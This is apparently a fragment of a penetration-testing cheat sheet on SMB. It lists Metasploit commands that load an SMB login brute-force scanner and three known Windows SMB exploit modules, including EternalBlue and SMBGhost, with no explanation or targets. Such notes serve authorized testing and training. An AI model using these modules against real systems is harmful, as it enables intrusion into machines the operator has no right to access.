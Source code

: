 

### Brute Force
```bash
search smb_login
```

### Dictionary Attack 

```bash
msfconsole 
use auxiliary/scanner/smb/smb_login 
```

### Metasploit
```bash
use exploit/windows/smb/ms08_067_netapi
use exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/smb/cve_2020_0796_smbghost

```